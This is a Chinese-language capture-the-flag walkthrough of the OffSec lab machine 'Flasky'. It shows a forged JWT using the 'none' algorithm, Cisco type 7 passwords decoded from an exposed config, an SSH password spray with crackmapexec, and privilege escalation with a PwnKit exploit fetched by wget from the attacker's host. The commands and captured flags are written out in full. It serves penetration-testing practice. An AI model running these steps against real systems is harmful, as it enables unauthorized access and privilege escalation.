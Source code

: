 ###### tags: `Offsec` `PG Practice` `Intermediate` `Linux`

# Flasky
```
┌──(kali㉿kali)-[~/pgplay]
└─$ rustscan -a 192.168.233.141 -u 5000 -t 8000 --scripts -- -n -Pn -sVC

Open 192.168.233.141:22
Open 192.168.233.141:5555
Open 192.168.233.141:20202

PORT      STATE SERVICE REASON  VERSION
22/tcp    open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
5555/tcp  open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-title: Calculator
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-server-header: nginx/1.18.0 (Ubuntu)
20202/tcp open  http    syn-ack nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: OPTIONS GET HEAD
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

到`http://192.168.233.141:20202/`可以看到有`Guest Login`，點進去裡面會講說
```
Hey, JWT not configured properly. Need to fix it soon
```

所以想得到要用JWT攻擊，F12查看，利用[jwt_tool](https://github.com/ticarpi/jwt_tool)，可以看到他`guest=true`，`admin=false`
```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6ICIxIiwiZ3Vlc3QiOiAidHJ1ZSIsImFkbWluIjogZmFsc2V9.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

┌──(kali㉿kali)-[~/pgplay/jwt_tool]
└─$ python3 jwt_tool.py "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpZCI6ICIxIiwiZ3Vlc3QiOiAidHJ1ZSIsImFkbWluIjogZmFsc2V9.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"

Token header values:
[+] typ = "JWT"
[+] alg = "HS256"

Token payload values:
[+] id = "1"
[+] guest = "true"
[+] admin = False
```

想法是可以參考[10 ways to exploit JWT (JSON Web Token)](https://medium.com/@musab_alharany/10-ways-to-exploit-json-web-token-jwt-ac5f4efbc41b)使用`None Attack`，把`guest`變成`false`，`admin`變成`true`
```
┌──(kali㉿kali)-[~/pgplay/jwt_tool]
└─$ echo -n '{"typ":"JWT","alg":"none"}'|base64                
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0=

┌──(kali㉿kali)-[~/pgplay/jwt_tool]
└─$ echo -n '{"id": "0","guest": "false","admin": true}'|base64
eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9

## 接在一起
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJpZCI6ICIwIiwiZ3Vlc3QiOiAiZmFsc2UiLCJhZG1pbiI6IHRydWV9.
```

key進f12跟之前一樣重整可登入dashboard，如果有用burpsuite看的話可以看到有一個`cisco_config`

![Flasky_1.png](picture/Flasky_1.png)

前往`http://192.168.172.141:20202/cisco_config`
```
username angie password 7 08014249001C254641585B
username jane password 7 08121F4D3B4A313B415818
username jill password 7 082B45420539091E1801
username john password 7 080F49541C120A341A2B02
username admin password 7 0811751F01490B311E2B1F2F
username kunal password 7 08116C5A0C15
```

利用[Cisco Type 7 Password Decrypter](https://github.com/theevilbit/ciscot7?source=post_page-----7e52d885c1a1--------------------------------)，把全部的都解一解
```
┌──(kali㉿kali)-[~/pgplay/ciscot7]
└─$ python3 ciscot7.py -p "08014249001C254641585B"                         
Decrypted password: @ngie@1337

┌──(kali㉿kali)-[~/pgplay]
└─$ cat password.txt  
@ngie@1337
S3cR3TL33t
jill@lijj
NezukoCh@n
PY1h0nFl@sK
P@tel

┌──(kali㉿kali)-[~/pgplay]
└─$ cat users.txt
angie
jane
jill
john
admin
kunal
```

CME
```
┌──(kali㉿kali)-[~/pgplay]
└─$ crackmapexec ssh -u users.txt -p password.txt --port 22 192.168.172.141
SSH         192.168.172.141 22     192.168.172.141  [+] john:NezukoCh@n 
```

ssh登入，在`/home/john`得local.txt
```
┌──(kali㉿kali)-[~/pgplay]
└─$ ssh john@192.168.172.141 

john@192.168.172.141's password: NezukoCh@n 

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
john@Flasky:~$ cat local.txt
2704c8c32787049bcffbdefac85c1f51
```

`linpeas.sh`
```
john@Flasky:/tmp$ wget 192.168.45.245:5555/linpeas.sh
john@Flasky:/tmp$ chmod +x linpeas.sh
john@Flasky:/tmp$ ./linpeas.sh

[+] [CVE-2021-4034] PwnKit

   Details: https://www.qualys.com/2022/01/25/cve-2021-4034/pwnkit.txt
   Exposure: probable
   Tags: [ ubuntu=10|11|12|13|14|15|16|17|18|19|20|21 ],debian=7|8|9|10|11,fedora,manjaro
   Download URL: https://codeload.github.com/berdav/CVE-2021-4034/zip/main
```

使用[CVE-2021-4034](https://github.com/joeammond/CVE-2021-4034/blob/main/CVE-2021-4034.py)得root，進/root得proof.txt
```
john@Flasky:/tmp$ wget 192.168.45.245:5555/CVE-2021-4034.py
john@Flasky:/tmp$ python3 CVE-2021-4034.py
# python3 -c 'import pty; pty.spawn("/bin/bash")'
root@Flasky:/root# cat proof.txt
2334739e4e0c1dfda7e0982e5fd527b3
```